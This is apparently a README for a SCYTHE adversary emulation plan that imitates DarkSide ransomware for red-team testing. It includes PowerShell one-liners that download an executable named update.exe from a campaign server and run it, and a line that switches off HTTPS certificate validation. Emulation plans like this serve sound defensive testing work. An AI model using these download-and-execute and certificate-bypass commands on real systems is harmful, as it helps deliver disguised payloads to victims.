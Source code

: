 # DarkSide Ransomware Adversary Emulation Plan

This threat is based on CyberReason's Cyber Threat Intelligence: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL: powershell -Command "(New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')"
10. Execute update.exe

Note, to get around HTTPS certificate validation issues:

- Open a PowerShell command prompt
- PS C:\Users\LocalUser> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- PS C:\Users\LocalUser> (New-Object Net.WebClient).DownloadFile('<SCYTHE EXE URL>','C:\Users\Public\update.exe')
- PS C:\Users\LocalUser> C:\Users\Public\update.exe
